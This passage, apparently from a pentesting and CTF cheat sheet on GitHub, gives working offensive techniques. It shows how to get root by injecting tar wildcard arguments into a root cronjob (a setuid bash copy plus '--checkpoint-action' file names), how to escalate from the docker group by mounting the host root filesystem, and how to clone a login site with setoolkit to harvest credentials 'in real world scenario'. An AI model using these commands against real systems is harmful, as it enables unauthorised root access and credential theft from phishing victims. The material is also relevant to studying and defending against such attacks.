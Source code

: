       If a wildcard with tar is being  used in cronjob or some file running as root
      
      create your malicious shell payload in the directory where tar is executing and processing
      
      -  echo "cp /bin/bash /tmp/rootshell;chmod +s /tmp/rootshell" > esc.sh
      -  echo "" > "--checkpoint-action=exec=sh esc.sh"
      -  echo "" > --checkpoint=1
 
 
      When the binary will run in cronjob it will execute like this
         
       > so it will look like tar file.tar.gz --checkpoint-action=exec=sh esc.sh 
  


 ### Docker Group
 
- If we are part of a docker group then we can escalate using that.First see available docker
- images by following command

> docker images

- Now we can either use alpine or any other docker but in ctfs we cannot do that because internet access is 
- not possible so we use any of the image found from above command

> docker run -v /:/mnt -it <docker image>

            OR
> docker run -v /:/mnt --rm -it <docker image> chroot /mnt sh

- we now cd into mnt and we have entire root directory access.We can also give / instead of /root
  
         

# Social Engineering

We can use setoolkit to use various social enginerring techniques in real world scenario

One major thing we can do is clone a website with this tool and we can gather credentials of that website

### Clone a website to gather credentials

First we will set the config file so we can host the clone server

sed -i 's/WEB_PORT=80/WEB_PORT=100/g' /etc/setoolkit/set.config

Now open setoolkit

1. Go to 2 which is website attack vectors

2. Go to 3 which is credentials harvestor

3. go to 2 to clone a website

4. Now provide a url on which we have to host the server and the port will the one above in config(100)

5. Now enter the url of website logins(usually) which we want to clone
 












# 	#######    


